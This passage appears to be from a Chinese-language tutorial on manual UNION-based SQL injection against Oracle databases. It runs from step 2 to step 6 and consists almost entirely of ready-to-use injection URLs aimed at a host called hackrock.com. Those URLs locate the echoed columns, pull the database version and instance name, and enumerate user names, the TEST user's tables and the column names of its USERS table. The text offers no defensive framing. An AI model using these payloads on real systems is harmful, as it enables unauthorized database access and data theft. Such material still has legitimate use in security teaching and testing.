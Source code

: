 ###### 2.判断回显位

```
http://hackrock.com:8080/oracle/?id=-1 union select null,null,null from dual --+

http://hackrock.com:8080/oracle/?id=-1 union select 1,'2','3' from dual --+
```

###### 3.获取数据库基本信息

```
获取数据库版本
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select banner from sys.v_$version where rownum=1 ),'3' from dual --+        

获取数据库的实例名(SYS用户才可查询)
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select instance_name from v_$instance),'3' from dual --+    
```

###### 4.获取用户名

```
Oracle没有数据库名的概念，所谓数据库名，即数据表的拥有者，也就是用户名。
```

```
获取第一个用户名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+    

获取第二个用户名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select username from all_users where rownum=1 and username<>'SYS'),'3' from dual --+    

获取当前用户名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(SELECT user FROM dual),'3' from dual --+
```

###### 5.获取表名

```
获取TEST用户的第一张表
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST'),'3' from dual --+

获取TEST用户的第二张表
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST' and table_name<>'NEWS'),'3' from dual --+
```

###### 6.获取字段名

```
获取TEST用户的USERS表的第一个列名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),'3' from dual --+    

获取TEST用户的USERS表的第二个列名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1 and column_name<>'ID'),'3' from dual --+    
```
